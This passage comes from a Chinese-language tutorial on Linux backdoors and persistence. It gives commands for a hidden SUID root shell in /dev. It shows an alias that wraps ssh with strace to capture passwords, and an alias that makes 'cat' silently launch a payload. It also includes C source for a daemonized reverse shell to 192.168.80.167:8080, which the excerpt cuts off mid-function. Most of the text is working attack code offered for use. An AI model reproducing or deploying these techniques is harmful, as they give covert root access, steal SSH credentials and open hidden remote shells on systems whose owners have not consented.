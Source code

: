 ### <a class="reference-link" name="SUID%20Shell"></a>SUID Shell

root 权限下执行如下命令，普通用户运行`/dev/.rootshell`即可获得root权限

```
cp /bin/bash /dev/.rootshell
chmod u+s /dev/.rootshell
```

### <a class="reference-link" name="alias%E7%9E%92%E5%A4%A9%E8%BF%87%E6%B5%B7"></a>alias瞒天过海

我们可以通过alias来指定执行特定的命令时候静默运行其他程序，从而达到启动后门，记录键值等作用。下面举两个实例：
<li>修改ssh命令，利用strace，使其具有记录ssh对read,write,connect调用的功能。
<pre><code class="hljs perl">alias ssh='strace -o /tmp/sshpwd-`date    '+%d%h%m%s'`.log -e read,write,connect  -s2048 ssh'
</code></pre>
</li>
<li>利用守护进程回弹shell
<pre><code class="hljs bash">alias cat='cat&amp;&amp;/root/.shell'
</code></pre>
shell.c
</li>
```
#include &lt;stdio.h&gt;
#include &lt;unistd.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;time.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;signal.h&gt;

#define ERR_EXIT(m) 
do
`{`
    perror(m);
    exit(EXIT_FAILURE);
`}`
while (0);

void creat_daemon(void);
int main(void)
`{`
    time_t t;
    int fd;
    creat_daemon();
    system("bash -i &gt;&amp; /dev/tcp/192.168.80.167/8080 0&gt;&amp;1");
    return 0;
`}`

void creat_daemon(void)
`{`
    pid_t pid;
    int devnullfd,fd,fdtablesize;
    umask(0);

    pid = fork();
    if( pid == -1)
        ERR_EXIT("fork error");
    if(pid &gt; 0 )
        exit(EXIT_SUCCESS);
    if(setsid() == -1)
        ERR_EXIT("SETSID ERROR");
```